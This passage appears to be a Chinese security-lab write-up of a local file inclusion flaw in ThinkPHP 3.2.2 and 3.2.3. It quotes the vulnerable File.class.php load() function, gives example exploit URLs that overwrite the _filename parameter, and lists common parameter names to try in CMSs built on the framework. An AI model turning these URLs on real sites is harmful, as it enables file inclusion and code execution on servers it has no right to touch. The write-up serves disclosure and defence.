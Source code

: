 http://x.x.x.x/index.php?m=Home&c=Index&a=index&value[filename]=.\

> 2.ThinkPHP_3.2.2 和 ThinkPHP_3.2.3
> 
>   

**代码位置：\ThinkPHP\Library\Think\Storage\Driver\File.class.php**

```
/**     * 加载文件     * @access public     * @param string $filename  文件名     * @param array $vars  传入变量     * @return void             */    public function load($_filename,$vars=null){        if(!is_null($vars))            extract($vars, EXTR_OVERWRITE);        include $_filename;    }
```

http://127.0.0.1/index.php?m=Home&c=Index&a=index&value[_filename]=.\

> 3. 限定条件下参数的收集
> 
>   

很多利用 Thinkphp 二开的 cms，value 的值不确定，以下列出常见的：

```
paramnamevaluearrayarrinfolistpagemenusvardatamoudlemodule
```

最终 payload 例如：http://127.0.0.1/index.php?m=Home&c=Index&a=index&info[_filename]=.\

> 参考：http://www.thinkphp.cn/

**默安玄甲实验室已经协同监管单位向使用该框架的关键基础设施推进检测方式和代码安全解决方案，点击原文了解默安** **SDL 解决方案****。**